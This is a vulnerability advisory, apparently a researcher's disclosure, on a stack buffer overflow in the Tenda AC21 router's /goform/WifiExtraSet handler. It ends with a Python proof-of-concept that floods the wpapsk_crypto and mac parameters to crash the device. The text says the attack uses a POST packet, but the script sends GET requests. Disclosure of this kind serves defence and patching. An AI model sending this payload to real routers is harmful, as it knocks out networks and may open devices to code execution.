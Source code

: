 # Information



**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC21

**Affected firmware version:** <= V16.03.08.16

**Firmware download address:** [AC21 升级软件_腾达Tenda官方网站](https://www.tenda.com.cn/material/show/3742)

# Overview

A buffer overflow vulnerability was discovered on the latest version of the Tenda AC21 router, V16.03.08.16, where an attacker sent a well-crafted http post packet to the request path /goform/WifiExtraSet, triggering a denial of service attack or even RCE, specifically via the function strcpy(tkip_aes, tkip_aes_1); because there is no bounds check on tkip_aes, causing a stack overflow

# Vulnerability details

It can be found that the values of the wl_mode and wifi_chkHz are taken here, and if the if judgment is met, you can enter the sub_45CD64 function

![](img/1.png)

When var=1, it will enter the sub_45CAD8 function to perform subsequent operations

![](img/2.png)

Subsequently, it will enter the sub_45BB10 function to execute the subsequent logic

![](img/3.png)

When wpapsk_crypto is not tkip&aes, the strcpy function will be triggered to cause the buffer overflow

![](img/4.png)

# POC

```py
import requests

def generate_overflow_data():
 
    padding = b"X" * 6
    
    exploit_data = padding 
    
    return exploit_data

def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {
    "wifi_chkHz": "1",
    "wl_mode": "wisp",
    "wl_enbale": "1",        
    "ssid": "123456",
    "wpapsk_key": "1",
    "security": "wpapsk",
    "wpapsk_type": "wpa&wpa2",
    "wpapsk_crypto": b"a"*0x64,
    "mac": data         
}

   

    
    # Send the malicious request twice (as in original)
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)
  
    
    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    # Target endpoint
    target_url = "http://192.168.102.145/goform/WifiExtraSet"
    
    # Generate overflow payload
    malicious_payload = generate_overflow_data()
    
    # Execute the attack
    execute_overflow(target_url, malicious_payload)
```

![](img/5.png)

![](img/6.png)